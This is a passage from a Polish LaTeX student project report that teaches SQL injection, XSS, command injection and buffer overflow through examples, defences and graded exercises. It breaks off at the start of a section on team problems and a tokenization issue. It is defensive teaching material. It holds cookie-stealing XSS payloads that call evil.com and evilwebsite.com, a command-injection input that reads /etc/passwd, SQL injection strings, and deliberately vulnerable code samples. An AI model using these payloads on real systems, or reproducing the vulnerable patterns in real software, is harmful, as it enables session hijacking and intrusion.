    \item SELECT * FROM xyz WHERE 't' = 't 
\end{enumerate} 

\subsubsection{Zabezpieczenia}

Zabezpieczenia przed atakami typu \emph{Code Injection} sprowadzają się do następujących, kluczowych parametrów:
\begin{enumerate}
    \item \textbf{Parametryzacja danych} - pre-kompilacja kodu oraz wprowadzenie danych od użytkownika do istniejącego stwierdzenia; 
    \item \textbf{Sanityzacja - wykorzystanie Whitelist słów kluczowych} - ograniczenie możliwych słów kluczowych do tych, które są bezpieczne, i odrzucanie pozostałych;
    \item \textbf{Wykorzystanie reguły Principle of Least Privilege} - użytkownik, proces, zadanie czy program w systemie powinno mieć 
            tylko i wyłącznie najmniejszy możliwy poziom dostępu do wykonania swojej funkcji.
\end{enumerate}

W zadaniach skupimy się głównie na parametryzacji danych wejściowych, gdyż jest to najbardziej kluczowe zabezpieczenie w przypadku kodu
\emph{SQL Injection}. Oczywiście pozostałe zabezpieczenia również należy stosować, nie tylko przy atakach typu \emph{Code Injection}.

Parametryzacja kodu SQL polega na podzieleniu części "kodu" oraz części "danych" na dwie, oddzielne strefy.
Część "kodu" jest kompilowana \emph{przed} dodaniem do niej części "danych", co pozwala na zachowanie jednej, spójnej dyrektywy
niezależnie od tego jakie jest wejście podane przez użytkownika - wszystkie znaki specjalne, złośliwy kod nie są interpretowane 
jako część kodu do wykonania, a jako zmienne zamknięte w parametrach klauzul. 

Korzystając z poprzedniego przykładu, parametryzacja w języku SQL sprowadza się do wprowadzenia znaku \emph{(?)} w miejsce, gdzie będzie
część "danych".\footnote{Kilka zmiennych może być podawane jako (?,?,...,?).} Parametryzacja kodu powyżej powinna wyglądać w następujący 
sposób:
\begin{tcolorbox}
\begin{verbatim}
var query = "SELECT * FROM users WHERE name = (?)"
response = sql.execute(query, username)
\end{verbatim} 
\end{tcolorbox}

Wówczas, część \emph{SELECT * FROM users WHERE name = (?)} jest częścią "kodu", kompilowaną wcześniej. \emph{username} jest częścią "danych",
podaną w wyznaczone na to miejsce - znak zapytania.

Teraz, niezależnie od podanych przez użytkownika zmiennych typu string, zostaną one potraktowane tylko jako wejście do wyfiltrowania - 
nie kod wykonywalny. W praktyce stwierdzenie wyglądało by następująco:
\begin{tcolorbox}
SELECT * FROM users WHERE name = ('user1') \\
SELECT * FROM users WHERE name = ('user1; drop table xyz;')
\end{tcolorbox}


\subsubsection{Zadania}
 
\begin{enumerate}
 
\item \textbf{[Łatwy]} Poniższy kod realizuje logowanie użytkownika w aplikacji Python. Wskaż konkretną linijkę, w której
występuje podatność SQL Injection. Następnie wyjaśnij, co się stanie, gdy atakujący poda jako login wartość
\texttt{' OR '1'='1' -{}-}.
\begin{tcolorbox}
\begin{verbatim}
1 import sqlite3
2  
3 def login(username, password):
4     conn = sqlite3.connect('app.db')
5     cur  = conn.cursor()
6     query = "SELECT id FROM users WHERE username='" \
              + username + "' AND password='" \
              + password + "'"
7     cur.execute(query)
8     return cur.fetchone() is not None
\end{verbatim}
\end{tcolorbox}

\item \textbf{[Łatwy]} Atakujący wpisuje w pole nazwy użytkownika wartość \texttt{haslo' OR '1'='1}. Zakładając, że oryginalne zapytanie ma
postać:
\begin{tcolorbox}
SELECT * FROM users WHERE user='X'
\end{tcolorbox}
Zapisz pełne zapytanie wynikowe po podstawieniu złośliwej wartości w miejscu \texttt{X}. 


\item \textbf{[Średni]} Poniższy kod jest podatny na SQL Injection.
Popraw go, stosując parametryzację zapytań z modułem \texttt{sqlite3}. Następnie dopisz drugą funkcję \\
\texttt{search\_by\_role\_and\_active(role, is\_active)}, która filtruje użytkowników po \emph{dwóch} parametrach - również w sposób bezpieczny.
\begin{tcolorbox}
\begin{verbatim}
def search_users(role):
    conn = sqlite3.connect('app.db')
    cur  = conn.cursor()
    query = "SELECT name, email FROM users " \
            "WHERE role = '" + role + "'"
    cur.execute(query)
    return cur.fetchall()
\end{verbatim}
\end{tcolorbox}

\item \textbf{[Średni]} Przeanalizuj poniższe trzy implementacje funkcji pobierającej użytkownika po identyfikatorze. Dla każdej
z nich określ czy jest podatna na SQL Injection, i jeżeli tak - przekształć podatną implementację na bezpieczną.
\begin{tcolorbox}
\begin{verbatim}
# Implementacja A
def get_user_A(uid):
    return db.execute(
        "SELECT * FROM users WHERE id=" + str(uid))
 
# Implementacja B
def get_user_B(uid):
    return db.execute(
        "SELECT * FROM users WHERE id=?", (uid,))
 
# Implementacja C
def get_user_C(uid):
    return db.execute(
        "SELECT * FROM users WHERE id=%s" % uid)
\end{verbatim}
\end{tcolorbox}


\item \textbf{[Trudny]} Napisz od podstaw w Pythonie funkcję
\texttt{register\_user(username, email, password)}, która:
\begin{itemize}
    \item tworzy tabelę \texttt{users} o schemacie
            \texttt{(id INTEGER PRIMARY KEY, username TEXT UNIQUE,
            email TEXT UNIQUE, password\_hash TEXT, created\_at TEXT)},
            jeśli nie istnieje;
    \item hashuje hasło używając \texttt{hashlib.pbkdf2\_hmac}
            z losową solą (salt) - sól musi być przechowywana
            razem z hashem;
    \item zapisuje dane za pomocą \emph{parametryzowanych}
            zapytań SQL;
    \item obsługuje wyjątek naruszenia unikalności
            (\texttt{IntegrityError}) i zwraca czytelny komunikat
            błędu.
\end{itemize}

\item \textbf{[Trudny]} Poniższy kod zawiera podatność \emph{Second-Order SQL Injection} - rodzaj ataku, w którym złośliwe dane są najpierw \emph{bezpiecznie} zapisane do bazy,
lecz następnie pobrane i użyte w \emph{nowym, niezabezpieczonym} zapytaniu. Wyjaśnij mechanizm ataku, zapisz w komentarzu przykład złośliwej nazwy użytkownika umożliwiającej atak
i wprowadź poprawkę zabezpieczającą kod.
\begin{tcolorbox}
\begin{verbatim}
def register(username, password):
    db.execute(
        "INSERT INTO users (name, pass) VALUES (?,?)",
        (username, password))
 
def update_email(current_user, new_email):
    row = db.execute(
        "SELECT name FROM users WHERE name=?",
        (current_user,)).fetchone()
 
    query = "UPDATE users SET email='" + new_email \
            + "' WHERE name='" + row['name'] + "'"
    db.execute(query)
\end{verbatim}
\end{tcolorbox}

\end{enumerate}


\subsection{Cross-Site Scripting (XSS)}

\subsubsection{Wstęp teoretyczny}
W poprzednim temacie poznaliśmy zasady działania oraz metody zapobiegania atakom SQL Injection.
W tym rozdziale opisany zostanie inny atak z kategorii \emph{wstrzyknięcia kodu} ---
\textbf{Cross-Site Scripting (XSS)}.

\textbf{Cross-Site Scripting} to atak polegający na wstrzyknięciu złośliwego kodu skryptowego wykorzystującego \emph{inline script}
(najczęściej JavaScript) do stron internetowych, przez co \emph{osadzając złośliwą treść w stronach}, która następnie są 
\emph{wyświetlane innym użytkownikom}. W odróżnieniu od SQL Injection, gdzie celem ataku jest serwer i baza danych, 
w XSS celem jest \emph{przeglądarka ofiary} - atakujący dąży do wykonania złośliwego kodu przez użytkownika, gdy ten wchodzi na zaufaną stronę z osadzonym, złośliwym kodem.
W ten sposób, atakujący są w stanie obejść niektóre mechanizmy kontroli dostępu do danych.

Wyróżniamy trzy główne odmiany ataku XSS:
\begin{itemize}
    \item \textbf{Reflected XSS (nietrwały)} - złośliwy skrypt jest zawarty bezpośrednio w żądaniu HTTP
          (np. w parametrze URL) i natychmiast zwracany przez serwer w odpowiedzi bez zapisania.
          Ofiara musi kliknąć spreparowany link;
    \item \textbf{Stored XSS (trwały)} - złośliwy skrypt zostaje \emph{zapisany w bazie danych} serwera
          (np. jako komentarz, post na forum) i jest serwowany każdemu użytkownikowi odwiedzającemu daną stronę;
    \item \textbf{DOM-based XSS} - złośliwy kod nie przechodzi przez serwer; jest wykonywany wyłącznie
          po stronie klienta przez manipulację modelem DOM strony (Document Object Model).
\end{itemize}

W przypadku stron napisanych w HTML, najczęstszym elementem wykorzystywanym w celu ataku XSS jest \emph{<script>} - element pozwalający wywołać kod w języku JavaScript na komputerze osoby,
która wchodzi w daną stronę. \emph{<script>} może być połączone z wieloma funkcjami, które pozwalają na nieporządane efekty, w tym:
\begin{itemize}
    \item \emph{fetch} - wysyłanie żądań HTTP;
    \item \emph{eval} - wykonanie i ewaluacja dowolnego skryptu JavaScript;
    \item \emph{atob} - ASCII-to-Base64, funkcja pozwalająca na ukrycie złośliwego kodu poprzez zakodowanie go w systemie base64.
\end{itemize}

Rozważmy prosty przykład aplikacji webowej w języku Python (Flask), podatnej na atak XSS, która wyświetla powitalny komunikat
z nazwą użytkownika pobraną z parametru URL:

\begin{tcolorbox}
\begin{verbatim}
@app.route('/welcome')
def welcome():
    username = request.args.get('user', '')
    return "<h1>Witaj, " + username + "!</h1>"
\end{verbatim}
\end{tcolorbox}

Dla normalnego wywołania \texttt{/welcome?user=user1} aplikacja zwróci bezpieczny napis witający użytkownika:

\begin{tcolorbox}
\texttt{<h1>Witaj, user1!</h1>}
\end{tcolorbox}

Natomiast - atakujący może przygotować złośliwy kod, który zostanie wywołany przez przeglądarkę internetową ofiary:
\begin{tcolorbox}
\begin{verbatim}
/welcome?user=<script>document.location='https://evilwebsite.com/steal?c='
+document.cookie</script>
\end{verbatim}
\end{tcolorbox}

Wówczas przeglądarka ofiary wykona osadzony skrypt JavaScript, który wykradnie pliki cookie sesji i wyśle je na serwer atakującego. 
Dzięki temu atakujący może, na potrzeby przykładu, \emph{przejąć sesję} zalogowanego użytkownika bez znajomości jego hasła.

Częstymi skutkami udanego ataku XSS są:
\begin{itemize}
    \item kradzież plików cookie sesji i przejęcie konta;
    \item przechwycenie danych wpisywanych przez użytkownika (keylogging);
    \item przekierowanie użytkownika na fałszywe strony w celu wyłudzenia jego danych (phishing);
    \item wykonanie nieautoryzowanych działań w imieniu ofiary (np. przelewów bankowych).
\end{itemize}

\subsubsection{Zabezpieczenia}
Zabezpieczenia przed wektorem \emph{Cross-Site Scripting} obejmują:
\begin{enumerate}
    \item \textbf{Kodowanie wyjścia} (Output Encoding) - podejście w którym każda wartość dynamicznie wstawiana do HTML
            jest zakodowana tak, aby znaki specjalne języka - \texttt{<}, \texttt{>}, \texttt{"}, \texttt{'}, \texttt{\&} -
            były traktowane jako \emph{tekst}, nie jako \emph{kod}. Biblioteki takie jak \texttt{markupsafe} w Pythonie
            lub \texttt{html.escape()} realizują to automatycznie:

    \item \textbf{Walidacja i sanityzacja danych wejściowych} - analogicznie do SQL Injection, efektywną ochroną przed atakami XSS jest stosowanie białej listy
            dopuszczalnych znaków/słów i odrzucanie danych zawierających znaki specjalne inne, niż podane w liście;

    \item \textbf{Content Security Policy (CSP)} - nagłówek HTTP ograniczający źródła, z których przeglądarka może ładować i wykonywać skrypty. 
            Poprawna konfiguracja CSP uniemożliwia wykonanie inline scripts nawet, jeśli zostaną wstrzyknięte:
\begin{tcolorbox}
\begin{verbatim}
Content-Security-Policy: default-src 'self'; script-src 'self'
\end{verbatim}
\end{tcolorbox}
    \item \textbf{Flagi bezpieczeństwa plików cookie} - istnieją flagi plików cookie, których użycie minimalizuje skutki kradzieży ciasteczek. W to wchodzą 
        m.in. \texttt{HttpOnly} - cookie niedostępny dla JavaScript, oraz \texttt{Secure} - cookie przesyłany tylko przez HTTPS;
\end{enumerate}

Poniżej znajduje się przykład bezpiecznego fragmentu kodu przykładowego (Python, Flask), wykorzystującego podejście kodowania wyjścia: 

\begin{tcolorbox}
\begin{verbatim}
import html

@app.route('/welcome')
def welcome():
    username = html.escape(request.args.get('user', ''))
    return "<h1>Witaj, " + username + "!</h1>"
\end{verbatim}
\end{tcolorbox}

Wykorzystując funkcję \emph{html.escape} w pythonie, kodujemy wszystkie znaki specjalne w podanym przez użytkownika wejściu jako ich odpowiedniki tekstowe. Dzięki temu 
jesteśmy w stanie wyświetlić je w kodzie bez problemu, nie umożliwiając na osadzenie złośliwego kodu. 



\subsubsection{Zadania}
 
\begin{enumerate}
  
    \item \textbf{[Łatwy]} Czy poniższy kod Node.js/Express zawiera podatność XSS? 
    Jeśli tak - wskaż konkretną linię. Jeżeli nie, wpisz NIE. Zastanów się, jaki payload sprawiłby wypisanie
    \texttt{alert(1)} w przeglądarce ofiary.
    \begin{tcolorbox}
    \begin{verbatim}
1  app.get('/search', (req, res) => {
2    const q = req.query.q || '';
3    res.send(`
4      <html>
5        <body>
6          <h2>Wyniki dla: ${q}</h2>
7        </body>
8      </html>
9    `);
10 });
    \end{verbatim}
    \end{tcolorbox}
 

 
    \item \textbf{[Łatwy]} Poniżej podano pięć ciągów znaków. Wskaż po kolei, które z nich mogą pełnić rolę skutecznego payloadu XSS
    w kontekście strony HTML.
    \begin{tcolorbox}
    \begin{verbatim}
1) <script>document.location='http://evil.com/?c='
   +document.cookie</script>
 
2) <img src=x onerror=
   "fetch('http://evil.com/?c='+document.cookie)">
 
3) <b>pogrubiony tekst</b>
 
4) <a href="javascript:alert(document.domain)">
   Kliknij</a>
 
5) '; SELECT * FROM users; --
    \end{verbatim}
    \end{tcolorbox}
 
 
    \item \textbf{[Średni]} Poniższy kod PHP wyświetla komentarz podany przez użytkownika bez żadnej sanityzacji. Popraw go,
    stosując funkcję \texttt{htmlspecialchars()} z odpowiednimi flagami. Podaj, które znaki specjalne są kodowane, jak wyglądają
    ich zakodowane odpowiedniki oraz dlaczego samo usunięcie \texttt{<script>} (blacklisting) jest niewystarczające.
    \begin{tcolorbox}
    \begin{verbatim}
<?php
  $comment = $_GET['comment'];
  echo "<div class='comment'>" . $comment . "</div>";
?>
    \end{verbatim}
    \end{tcolorbox}
 
    \item \textbf{[Średni]} Przeanalizuj poniższy kod JavaScript pod kątem podatności \textbf{DOM-based XSS}. Wyjaśnij sobie,
    dlaczego kod jest podatny, wskazując konkretną linię. Popraw kod, zastępując \texttt{innerHTML} bezpieczną
    alternatywą i wyjaśnij, dlaczego ta zmiana eliminuje podatność.
    \begin{tcolorbox}
    \begin{verbatim}
const params = new URLSearchParams(location.search);
const user   = params.get('name');
 
document.getElementById('greeting').innerHTML =
  'Witaj, ' + user + '!';
    \end{verbatim}
    \end{tcolorbox}
 
 

 
\end{enumerate}


\subsection{Command Injection}

\subsubsection{Wstęp teoretyczny}
Kontynuując trend ataków wstrzyknięcia, spojrzymy na trzeci popularny wektor ataku kategorii Injection: \textbf{Command Injection}, czyli wstrzyknięcie polecenia systemowego.
W tym wariancie wstrzyknięć zamiast języka zapytań bazodanowych czy skryptu wykonującego w przeglądarce, wektorem ataku jest \emph{interpreter poleceń systemowych} danej powłoki (shell). 
Podatność ta pojawia się wówczas, gdy aplikacja \emph{przekazuje dane wejściowe od użytkownika bezpośrednio do wywołania polecenia systemu operacyjnego}.
Jak można się domyśleć, w przypadkach zamierzonych nic złego nie musi się stać, natomiast podatność ta może być \emph{niezwykle niebezpieczna}, w zależności od poziomu dostępu 
na którym wykonywany jest kod.

Rozważmy przykładową aplikację webową w Pythonie, która wykonuje polecenie \texttt{ping} na własnym serwerze, na podany przez użytkownika adres IP:

\begin{tcolorbox}
\begin{verbatim}
import os
def ping_host(host):
    result = os.system("ping -c 1 " + host)
    return result
\end{verbatim}
\end{tcolorbox}

Dla normalnego użycia z wartością \texttt{192.168.1.1} wywołane zostanie zwykłe zapytanie ping:

\begin{tcolorbox}
\texttt{ping -c 1 192.168.1.1}
\end{tcolorbox}

Atakujący jest jednak w stanie podać wartość, zawierającą kod inny niż wyłącznie adres do polecenia ping, za pomocą \emph{separatorów poleceń systemowych}. 
Poniżej opisano separatory wykorzystywane w powłokach systemów opartych o jądro Linux:
\begin{itemize}
    \item \texttt{;} - sekwencyjne wykonanie poleceń;
    \item \texttt{\&\&} - wykonanie drugiego polecenia jeśli pierwsze się powiodło;
    \item \texttt{||} - wykonanie drugiego polecenia jeśli pierwsze się nie powiodło;
    \item \texttt{|} - pipe, przesłanie wyjścia pierwszego polecenia jako wejście drugiego;
    \item \texttt{\$(polecenie)} lub \texttt{`polecenie`} - podstawienie polecenia (command substitution).
\end{itemize}

Kontynuując przykład, atakujący podając na wejściu \texttt{192.168.1.1; cat /etc/passwd} spowoduje wykonanie:

\begin{tcolorbox}
\texttt{ping -c 1 192.168.1.1; cat /etc/passwd}
\end{tcolorbox}

Polecenie to, poza ping, wyświetli informacje o wszystkich użytkownikach systemu.

Oczywiście \emph{cat} to nie jest jedyne polecenie, które można wykorzystać - \emph{Command Injection} pozwala na wykonanie \textbf{dowolnego polecenia w interpreterze podatnego systemu.}
Z tego względu, skutki udanych ataków \emph{Command Injection} są \textbf{krytyczne} ze względu na bezpośredni dostęp do powłoki systemu operacyjnego. Konsekwencje obejmują m.in.:
\begin{itemize}
    \item pełne przejęcie maszyny;
    \item usunięcie lub wykradzenie plików;
    \item instalację malware'u lub backdoor'a;
    \item dalsze ruchy boczne w sieci (lateral movement).
\end{itemize}

\subsubsection{Zabezpieczenia}

Zabezpieczenia przez \emph{Command Injection} w większości pokrywają się z innymi atakami \emph{Code Injection}, jednak kluczowe jest ich nakreślenie:
\begin{enumerate}
    \item \textbf{Unikanie wywołań powłoki systemowej} - najskuteczniejszym zabezpieczeniem jest kompletne zrezygnowanie z wywołań funkcji odwołujących się do 
            interpretera systemowego - w Python, np. \texttt{os.system()}, \texttt{exec()}, \texttt{shell=True}. Zamiast tego należy wykorzystać biblioteki realizujące
            tę samą, zamierzoną funkcję bez angażowania shell'a:
\begin{tcolorbox}
\begin{verbatim}
import subprocess

def ping_host(host):
    result = subprocess.run(
        ["ping", "-c", "1", host],
        capture_output=True,
        text=True
    )
    return result.stdout
\end{verbatim}
\end{tcolorbox}
          Przekazanie argumentów jako \emph{listy} (nie jako ciągu znaków) sprawia, że \texttt{host}
          jest traktowany jako jeden argument, a nie fragment kodu powłoki;

    \item \textbf{Walidacja i sanityzacja wejścia} - użycie whitelist'y dopuszczalnych wartości lub wyrażeń regularnych sprawdzających format danych 
            pozwala na kontrolowanie tego, co użytkownik wprowadza do programu. Dla przykładu z IP można wykorzystać np. wyrażenia regularne do sprawdzenia 
            poprawności wejścia - wyłącznie adresów IP w formacie \texttt{X.X.X.X}:
\begin{tcolorbox}
\begin{verbatim}
import re

def is_valid_ip(host):
    pattern = r'^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$'
    return re.match(pattern, host) is not None
\end{verbatim}
\end{tcolorbox}

    \item \textbf{Wykorzystanie reguły Principle of Least Privilege} - uruchamianie aplikacji z minimalnymi uprawnieniami niezbędnymi do działania 
            tak, aby nawet udany atak miał ograniczony zasięg;

    \item \textbf{Stosowanie sandboxingu} - izolacja procesów wykonujących zewnętrzne polecenia (np. kontenery Docker, chroot, seccomp). W wyniku, dostęp aktywującego 
            jest automatycznie ograniczony tym, że jest w środowisku odizolowanym od innych części systemu. Oczywiście, to rozwiązanie nie sprawia, że atakujący nie ma dostępu do zasobów kontenera.
\end{enumerate}

\subsubsection{Zadania}
 
\begin{enumerate}
 
    \item \textbf{[Łatwy]} Czy poniższy kod Python zawiera podatność Command Injection? Odpowiedz \textbf{TAK} lub \textbf{NIE}.
    \begin{tcolorbox}
    \begin{verbatim}
import subprocess
from flask import request, jsonify
 
@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    result = subprocess.run(
        ['ping', '-c', '1', host],
        capture_output=True,
        text=True,
        timeout=5
    )
    return jsonify({'output': result.stdout})
    \end{verbatim}
    \end{tcolorbox}
 
    \item \textbf{[Łatwy]} Wskaż podatną linię w poniższym kodzie i wyjaśnij, dlaczego jest niebezpieczna. Zastanów się jak mogły by wyglądać dwa różne
    przykładowe payloady (używające \emph{różnych} separatorów poleceń), które pozwoliłyby atakującemu:
    (a) wyświetlić listę plików w katalogu bieżącym, (b) odczytać plik \texttt{/etc/hostname}.
    \begin{tcolorbox}
    \begin{verbatim}
1  import os
2  from flask import request
3   
4  @app.route('/convert')
5  def convert():
6      filename = request.args.get('file', '')
7      os.system(
8          f"convert {filename} -resize 200x200 thumb.jpg"
9      )
10     return "Gotowe"
    \end{verbatim}
    \end{tcolorbox}
 
 
    \item \textbf{[Średni]} Poniższy kod PHP wykonuje polecenie
    \texttt{ping} na adresie IP podanym przez użytkownika.
    Popraw go, stosując:
    \begin{itemize}
        \item funkcję \texttt{escapeshellarg()} do ucieczki
              argumentu;
        \item walidację wejścia wyrażeniem regularnym akceptującym
              wyłącznie adresy IPv4 w formacie \texttt{X.X.X.X}.
    \end{itemize}
    \begin{tcolorbox}
    \begin{verbatim}
<?php
  $ip  = $_POST['ip'];
  $out = shell_exec("ping -c 4 " . $ip);
  echo "<pre>" . $out . "</pre>";
?>
    \end{verbatim}
    \end{tcolorbox}
 
    \item \textbf{[Średni]} Napisz w Java funkcję
    \texttt{public String safeWhois(String domain)}, która:
    \begin{enumerate}
        \item wykonuje polecenie \texttt{whois} na podanej domenie;
        \item używa ProcessBuilder z \emph{ArrayList} argumentów;
        \item waliduje domenę wyrażeniem regularnym akceptującym wyłącznie litery, cyfry, myślniki i kropki (a odrzuca wszelkie znaki specjalne powłoki).
    \end{enumerate}
 
\end{enumerate}



\subsection{Buffer Overflow (Przepełnienie Buforu)}

\subsubsection{Wstęp teoretyczny}

\textbf{Buffer Overflow} (przepełnienie buforu) to jeden z najstarszych i zarazem najgroźniejszych typów podatności w oprogramowaniu. Atak ten dotyczy języków programowania, w których nie istnieje wbudowana
ochrona granic tablic i buforów w pamięci, pozwalających na manipulację pamięcią - takich jak \textbf{C} i \textbf{C++}.

W kontekście programowania w takich językach, \emph{bufor} to obszar pamięci o określonej, z góry zdefiniowanej długości, przeznaczony do tymczasowego przechowywania danych. W kwestii ataku, aspekt przechowywania
tymczasowych danych nie jest istotny, jednak istotny jest fakt iż \emph{użytkownik ma dostęp do zapisania wejścia w buforze}. 

\textbf{Przepełnienie buforu} następuje wtedy, gdy program zapisuje \emph{więcej danych, niż bufor może pomieścić} - nadmiarowe bajty, które nie mieszczą się w odgórnym limicie danych, 
\textbf{zapisywane są w sąsiadujących obszarach pamięci}, co skutkuje \emph{nadpisaniem danych tam przechowywanych}. W ten sposób można nadpisać dowolną liczbę bajtów danych, które są zapisane na stosie 
\emph{po} podatnej strukturze.

Wyróżnia się pod-typy ataku przepełnienia buforu w zależności od jego celu. \textbf{Stack-based Buffer Overflow} nadpisuje dane na stosie, w tym adresu powrotu - może to spowodować powrót do innego miejsca w pamięci, więc
wykonanie dowolnej innej rzeczy w ramach programu. \textbf{Heap-based Buffer Overflow}, w przeciwieństwie, nadpisuje dane na stercie (heap), co często prowadzi do korupcji struktur zarządzania pamięcią.

Wykonując udany atak \emph{Buffer Overflow}, atakujący jest w stanie m.in.:
\begin{itemize}
    \item przejąć pełną kontrolę nad podatnym procesem;
    \item eskalować uprawnienia, jeśli proces działa z prawami administratora;
    \item wykonać dowolnego kodu, pod warunkiem że jest on zapisany w pamięci atakowanej maszyny (arbitrary code execution);
    \item destabilizować lub zakończyć działanie aplikacji.
\end{itemize}


Rozważmy prosty, podatny program w języku C:

\begin{tcolorbox}
\begin{verbatim}
#include <stdio.h>
#include <string.h>

void authenticate(char *input) {
    char buffer[64];
    strcpy(buffer, input);
    printf("Witaj: %s\n", buffer);
}

int main() {
    char user_input[256];
    gets(user_input); 
    authenticate(user_input);
    return 0;
}
\end{verbatim}
\end{tcolorbox}

W powyższym kodzie bufor \texttt{buffer} ma 64 bajty. Jeżeli użytkownik poda do \texttt{user\_input} ciąg dłuższy niż 64 znaki, nadmiarowe bajty zaczną nadpisywać sąsiednie obszary na stosie maszyny. 
Jednym z elementów potencjalnie nadpisanych jest \textbf{adres powrotu} - wartość wskazująca, gdzie program ma wrócić po zakończeniu funkcji. \emph{Nadpisanie adresu powrotu} złośliwie spreparowaną 
wartością pozwala atakującemu przekierować przepływ wykonywania programu w dowolne miejsce, w celu wykonania dowolnego kodu, w tym do \emph{shellcode'u} dostarczonego przez atakującego.


\subsubsection{Zabezpieczenia}

Aby zabezpieczyć się przed przepełnieniem buforu w systemach należy trzymać się następujących zasad:

\begin{enumerate}
    \item \textbf{Użycie bezpiecznych funkcji} - zastąpienie niebezpiecznych funkcji (w przykładzie \texttt{strcpy}, \texttt{gets}; ogółem - wszystkimi funkcjami manipulującymi pamięcią) wersjami sprawdzającymi 
    długość podanych ciągów bajtów (\texttt{str\textbf{n}cpy}, \texttt{\textbf{f}gets}), oraz zabezpieczenie ostatniego bajtu ciągu jako \verb|null|:
\begin{tcolorbox}
\begin{verbatim}
strncpy(buffer, input, sizeof(buffer) - 1);
buffer[sizeof(buffer) - 1] = '\0';
\end{verbatim}
\end{tcolorbox}

    \item \textbf{Stack Canaries} - mechanizm kompilatora umieszczający specjalną, losową wartość, tzw. kanarka, pomiędzy buforami a adresem powrotu. Przed powrotem z funkcji
          sprawdzana jest zgodność tej wartości, a jeżeli jest niepoprawna - z uwagi na przepełnienie buforu lub inny problem - program jest niezwłocznie kończony. 
          Dla GCC, kanarki stosu można włączyć flagą  \texttt{-fstack-protector};

    \item \textbf{Address Space Layout Randomization} - mechanizm systemu operacyjnego losowo rozmieszczający w pamięci stos, stertę i biblioteki, utrudniając przewidzenie adresów do nadpisania. 
            Jest to metoda "bezpieczeństwa przez niejawność";

    \item \textbf{Data Execution Prevention / No-Execute} - oznaczanie stron pamięci zawierających dane jako niewykonywalne. Metoda ta uniemożliwia wykonanie kodu powłokowego wstrzykniętego do buforu danych;

    \item \textbf{Użycie języków z automatycznym zarządzaniem pamięcią} - języki takie jak Java, Python czy Rust eliminują lub znacznie ograniczają tego typu podatności. Jesto to spowodowane dzięki sprawdzaniu 
            granic tablic w czasie wykonywania (bounds checking).
\end{enumerate}


\subsubsection{Zadania}
 
\begin{enumerate}
 
    \item \textbf{[Łatwy]} Wskaż \emph{wszystkie} linie z niebezpiecznym wywołania funkcji w poniższym kodzie C. Dla każdego z nich:
    (a) przypomnij sobie, dlaczego jest niebezpieczne i co może spowodować atak przepełnienia buforu.
    \begin{tcolorbox}
    \begin{verbatim}
1  #include <stdio.h>
2  #include <string.h>
3   
4  void process(char *input) {
5      char buf[64];
6      strcpy(buf, input);
7      printf(buf); 
8  }
9   
10 int main() {
11     char data[256];
12     gets(data); 
13     process(data);
14     return 0;
15 }
    \end{verbatim}
    \end{tcolorbox}
    
    \item \textbf{[Łatwy]} Dla poprzedniego przykładu, napisz kod który będzie odporny na atak przepełnienia buforu.
 
%     \item \textbf{[Średni]} Przeanalizuj poniższy układ stosu dla
%     funkcji \texttt{vulnerable()} i opisz krok po kroku atak
%     Stack-based Buffer Overflow:
%     \begin{tcolorbox}
%     \begin{verbatim}
% [ wyzsze adresy pamiec ]
% +----------------------+
% |  buf[64]             |  <-- bufor lokalny (64 bajty)
% +----------------------+
% |  zachowany EBP (4B)  |
% +----------------------+
% |  adres powrotu       |  <-- cel nadpisania (RET)
% +----------------------+
% [ nizsze adresy pamieci ]
%     \end{verbatim}
%     \end{tcolorbox}
%     Odpowiedz sobie na pytania:
%     \begin{itemize}
%         \item Co się dzieje, gdy wpisujemy dokładnie 64 bajty?
%         \item Co się dzieje, gdy wpisujemy 72 bajty?
%         \item Co umożliwia wpisanie więcej niż 72 bajtów zawierających adres kontrolowany przez atakującego?
%     \end{itemize}
 
    \item \textbf{[Średni]} Poniższy kod C zawiera podatność
    Buffer Overflow. Popraw go, stosując \texttt{strncpy}
    z właściwą długością i ręcznym zerowaniem bajtu terminatora.
    Zwróć szczególną uwagę na układ zmiennych na stosie: wyjaśnij,
    co mogłoby się stać z wartością zmiennej \texttt{authenticated},
    gdyby atakujący podał hasło dłuższe niż 16 znaków.
    \begin{tcolorbox}
    \begin{verbatim}
#include <stdio.h>
#include <string.h>
 
void authenticate(char *input_pass) {
    int  authenticated = 0;
    char stored[16]    = "tajne123";
    char input[16];
 
    strcpy(input, input_pass);
 
    if (strcmp(input, stored) == 0)
        authenticated = 1;
 
    if (authenticated)
        printf("Dostep przyznany!\n");
    else
        printf("Bledne haslo.\n");
}
    \end{verbatim}
    \end{tcolorbox}
 
 
    \item \textbf{[Trudny]} Napisz program w C demonstrujący podatność
    \emph{Off-by-One Buffer Overflow}:
    \begin{enumerate}
        \item Zdefiniuj dwie zmienne lokalne obok siebie: bufor \texttt{char buf[8]} oraz flagę \texttt{int flag = 0};
        \item Napisz pętlę kopiującą, która sprawdza \texttt{i <= 8} zamiast \texttt{i < 8} (błąd o jeden bajt), i skopiuj do buforu ciąg 9 znaków;
        \item Wypisz wartość \texttt{flag} \emph{przed} i \emph{po} kopiowaniu;
    \end{enumerate}
 
\end{enumerate}

\section{Wybrane problemy napotkane w trakcie realizacji projektu}

\subsection{Problemy komunikacji w zespole}

Podczas realizacji projektu najbardziej znaczącym aspektem, przez który praca zespołowa nie posuwała się do przodu, był brak komunikacji w zespole. Mimo wstępnych prób oraz uzgodnienia ogólnego zarysu projektu, po pewnym czasie członkowie zespołu zatrzymali komunikację między sobą. Oznaczało to, że oddzielnie pracowano nad swoimi zadaniami, nie ujawniając tych informacji.

Problem ten skutkował licznymi momentami dezinformacji, brakiem odpowiedniego przydzielenia zadań, niedopracowanymi sprawami, które mogły być zaadresowane krótką rozmową, oraz zgrzytami między członkami zespołu. Nie sposób nie zauważyć, że problemy komunikacji członków oraz brak regularnych spotkań statusowych wpłynęły na pracę niektórych członków zespołu.

Jednakże, ostatecznie, członkowie zespołu byli w stanie wykonać wstępnie rozdzielone części projektu tak, aby końcowa aplikacja spełniała swoją podstawową funkcjonalność oraz założenia uzgodnione na początku procesu tworzenia. Postawione zadanie okazało się cennym doświadczeniem dla wszystkich członków zespołu - w celu odpowiedniego ukończenia projektu zespołowego kluczowa jest otwarta komunikacja, stworzenie przestrzeni gdzie członkowie chcą chętnie wyrażać swoje opinie oraz zaufanie w zespole.

\subsection{Tokenizacja z wykorzystaniem Unsloth na systemie Windows}
\label{ssec:problem_tokenization}

Podczas procesu tokenizacji z wykorzystaniem modułu Unsloth napotkano problem, który zablokował cały proces:
